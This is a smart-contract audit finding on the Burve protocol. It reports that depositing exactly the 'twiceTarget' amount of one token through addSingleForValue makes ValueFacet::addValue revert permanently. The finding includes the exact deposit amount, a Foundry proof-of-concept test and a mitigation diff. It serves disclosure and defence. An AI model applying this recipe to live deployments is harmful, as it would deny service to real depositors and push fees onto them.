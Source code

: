 Elegant Punch Dog

High

# [H-2] A Malicious User can cause a DoS in `ValueFacet::addValue` of a closure by depositing exactly the `twiceTarget` amount of any single token

### Summary

`ValueFacet::addValue` is a function in the `ValueFacet` where a user can "Add exactly this much value to the given closure by providing all tokens involved." but the issue is that if a Malicious user determines and deposits exactly `twiceTarget` amount of a single token in a closure then `ValueFacet::addValue` will always revert resulting in a DoS 

### Root Cause


 Reference : [RootCause](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/multi/closure/Closure.sol#L134-L142)

consider the Snippet from the `Closure::addValue` :

```solidity
 function addValue(Closure storage self, uint256 value, uint256 bgtValue)
        internal
        returns (uint256[MAX_TOKENS] memory requiredBalances)
    {
        trimAllBalances(self);
        // Round up so they add dust.
        uint256 scaleX128 = FullMath.mulDivX256(value, self.n * self.targetX128, true);
        uint256 valueX128 = value << 128;
        // Technically, by rounding up there will be a higher target value than actual value in the pool.
        // This is not an issue as it causes redeems to be less by dust and swaps to be more expensive by dust.
        // Plus this will be fixed when someone adds/removes value with an exact token amount.
        self.targetX128 += valueX128 / self.n + ((valueX128 % self.n) > 0 ? 1 : 0);
        self.valueStaked += value;
        self.bgtValueStaked += bgtValue;
        // Value is handled. Now handle balances.
        for (uint8 i = 0; i < MAX_TOKENS; ++i) {
            if (!self.cid.contains(i)) continue;

@>            requiredBalances[i] = FullMath.mulX128(scaleX128, self.balances[i], true);

            // This happens after because the vault will have
           
@>            self.setBalance(i, self.balances[i] + requiredBalances[i]);
        }
      
    }
```
 whenever `ValueFacet::addValue` is called it inturn calls the `Closure::addValue`  which inturn updates the `requiredBalances` of each token for the value being added. 

 So, if a Malicious user determines the amount of single token to make `self.balances[i]` exactly equal to `twiceTarget` and deposits them by calling `ValueFacet::addSingleForValue`

 (for a closure with `startingTarget` of 100e18 and 3 tokens the value required is exactly `257142857142857142857` , we also didn't consider closure fee for simplicity purpose) 

 then the `requiredBalances[i]` in the for-loop of the above snippet Rounds-up making the `self.balances[i] + requiredBalances[i]` be `1` more than `twiceTarget` resulting in a revert 

### Internal Pre-conditions

None

### External Pre-conditions

Malicious User should call `ValueFacet::addSingleForValue` to deposit the required amount

### Attack Path

1. Malicious User Selects a Closure with heavy demand
2. Malicious User determines the amount of single token to make `self.balances[i]` exactly equal to `twiceTarget` and deposits them by calling `ValueFacet::addSingleForValue` i.e  `257142857142857142857`(257e18) tokens for a closure with `startingTarget` of 100e18 and 3 tokens and no closure fee
3. Now `ValueFacet::addValue` will now always revert resulting in a DoS

NOTE:  257e18 tokens only if Malicious User wants to be the sole depositor of that token , he can even deposit to partially filled Vertexes i.e for a token with 200e18 balance already the Malicious user requires to deposit only 57 tokens


### Impact

1. `ValueFacet::addValue` of a closure will always revert resulting in a DoS
2. Protocol incentivises users to use `valueFacet::addValue` by not collecting any fee in that function and Now a Malicious user will force other users to pay fee by DoSing `valueFacet::addValue`

### PoC


PoC: Run the following command in the terminal `forge test --mt test_addValueDoS -vvvvv`

<details>
<summary>test_addValueDoS</summary>

```solidity

 function test_addValueDoS() public {
        address _token = address(tokens[2]);
        deal(_token, address(this), 10e21);

        //Malicious User Deposits Single Token
        address _griefer = makeAddr("griefer");
        deal(_token, address(_griefer), 4e20);
        vm.startPrank(_griefer);

        //Twice Target ,setBalance , determined Value
        //257142857142857142857
        uint128 _amountG = 257142857142857142857;

        ERC20(_token).approve(address(valueFacet), _amountG);
        valueFacet.addSingleForValue(address(_griefer), 0xD, tokens[2], _amountG, 0, 0);
        vm.stopPrank();

        //Another User tries to addValue but it always reverts
        vm.expectRevert();
        uint256[16] memory requiredBalances = valueFacet.addValue(address(this), 0xD, 1e20, 0);

        //also Reverts for Very Small amount of Values
        vm.expectRevert();
        requiredBalances = valueFacet.addValue(address(this), 0xD, 10, 0);

        vm.expectRevert();
        requiredBalances = valueFacet.addValue(address(this), 0xD, 1, 0);
    }

```
</details>



### Mitigation

The issue is caused because of roundingup of  `requiredBalances[i]` when `self.balances[i]` is exactly equal to `twiceTarget` so to mitigate the issue we rounddown the `requiredBalances[i]` (subtract it by `1`) whenever `self.targetX128 >> 127 < requiredBalances[i] + self.balances[i]` where `self.targetX128 >> 127` is the `twiceTarget` of the closure.

Make the following changes in `Closure::addValue`

```diff

        function addValue(Closure storage self, uint256 value, uint256 bgtValue)
        internal
        returns (uint256[MAX_TOKENS] memory requiredBalances)
    {
        trimAllBalances(self);
        // Round up so they add dust.
        uint256 scaleX128 = FullMath.mulDivX256(value, self.n * self.targetX128, true);
        uint256 valueX128 = value << 128;
        // Technically, by rounding up there will be a higher target value than actual value in the pool.
        // This is not an issue as it causes redeems to be less by dust and swaps to be more expensive by dust.
        // Plus this will be fixed when someone adds/removes value with an exact token amount.
        self.targetX128 += valueX128 / self.n + ((valueX128 % self.n) > 0 ? 1 : 0);
        self.valueStaked += value;
        self.bgtValueStaked += bgtValue;
        // Value is handled. Now handle balances.
        for (uint8 i = 0; i < MAX_TOKENS; ++i) {
            if (!self.cid.contains(i)) continue;

            requiredBalances[i] = FullMath.mulX128(scaleX128, self.balances[i], true);

            console.log("requiredBalances[i] : %d", i, requiredBalances[i]);
            // This happens after because the vault will have

+            if (self.targetX128 >> 127 < requiredBalances[i] + self.balances[i]) {
+               requiredBalances[i] -= 1;
+            }

            self.setBalance(i, self.balances[i] + requiredBalances[i]);
        }
        
    }


```